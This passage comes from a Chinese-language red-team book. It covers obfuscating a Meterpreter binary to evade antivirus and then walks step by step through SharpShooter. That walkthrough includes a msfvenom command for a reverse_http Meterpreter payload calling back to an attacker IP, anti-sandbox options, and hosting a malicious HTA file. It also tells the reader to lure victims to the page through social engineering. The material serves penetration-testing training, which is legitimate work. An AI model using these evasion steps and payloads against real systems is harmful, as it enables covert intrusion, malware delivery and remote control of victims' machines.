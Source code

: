 你现在拥有一个深度混淆过的 Meterpreter 二进制文件和混淆过的传输层，以绕过所有默认的保护。现在这仅仅是一个让你入门的 POC。只要本书一发布，我可以预见到其中一些技术不久就会被检测出签名。你还可以采取更多措施来更好地规避检测工具。例如，你可以：
* 使用 clang 混淆工具链来构建
* 对所有字符串使用字符串加密库
* 更改 Meterpreter 入口点（目前是 Init ）
* 创建一个自动化脚本，为所有 payload 类型添加空指令（nops）
* 编辑 payload 生成的实际 ruby，以便在每次运行时随机化 payload

## SharpShooter
作为红队队员，最耗时的事情之一就是创建可以躲避新一代杀毒软件和沙盒安全机制的 payload。我们一直在寻找新的方法来创建我们的初始 `stager`。一个名为 `SharpShooter` 的工具采用了许多反沙盒技术和 James Forshaw 的 DotNetToJScript 来执行 Windows 脚本格式的 shellcode（CACTUSTORCH工具——   https://github.com/mdsecactivebreach/CACTUSTORCH ）。

摘自 [MDSec 网站对于 SharpShooter 的描述](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/)：“SharpShooter 支持 `staged` 和 `stageless` 这两种类型 payload 的执行。`staged` 执行可以在 HTTP/HTTPSS、DNS 或 HTTP/HTTPS 与 DNS 相结合等这些情况下进行。当一个 `staged` payload 执行时，它将尝试检索已经压缩的 `C#` 源代码文件，之后使用所选的传输技术进行 base64 编码。随后在主机上使用 .NET CodeDom 动态编译器对 `C#` 源代码进行下载和编译。然后使用反射从源代码执行所需的方法。”

让我们快速把一个示例走一遍：
* python SharpShooter.py --interactive 
* 1 - For .NET v2
* Y - Staged Payload 
* 1 - HTA Payload
* 可以选择使用以下防沙盒技术：
    * 你可以选择你想用的技术来绕过沙盒机制从而成功的执行你的恶意软件。
    * [1] Key to Domain
    * [2] 确保 Domain 加入
    * [3] 检查沙盒痕迹
    * [4] 检查错误的 MAC 地址
    * [5] 检查调试
* 1 - 网络传输
* Y - 内置 shellcode 模板
* shellcode 作为一个字节数组
    * 打开一个新终端并创建一个 C# 语言的 Meterpreter payload
    * msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=10.100.100.9 LPORT=8080 EnableStageEncoding=True StageEncoder=x86/shikata_ga_nai -f csharp
    * 复制 `{` 和 `}` 之间的所有内容并作为字节数组提交
* 为 C# 网络传输提供 URI
    * 输入攻击者机器的IP/端口和文件。示例：http://10.100.100.9/malware.payload
* 提供输出文件的文件名
    * 恶意软件
* Y - 你想将 payload 嵌入到 HTML 文件中吗？ 
* 使用自定义（1）或预定义（2）模板
    * 要进行测试，请选择任意预定义模板
* 将新创建的恶意文件移动到你的 Web 目录下
    * mv output/* /var/www/html/
* 为你的 payload 建立一个 Meterpreter 处理程序（handler）

配置和开发了恶意软件后，将其移至 Web 目录（malware.hta，malware.html，malware.payload），启动 apache2 服务，然后启动你的 Meterpreter 处理程序。你现在已经做好准备，通过诱导受害者访问你的恶意站点来对其发动社会工程学攻击！下图中给出的示例是 Sharpshooter 的 SharePoint 在线模板。当受害者使用 IE/Edge 浏览器访问你的恶意网页时，HTA 会自动下载并提示运行。一旦显示了提示并选择运行的话，stager payload 就会运行，下载辅助 payload（满足沙箱控件的情况下），并在内存中执行我们的 Meterpreter payload。
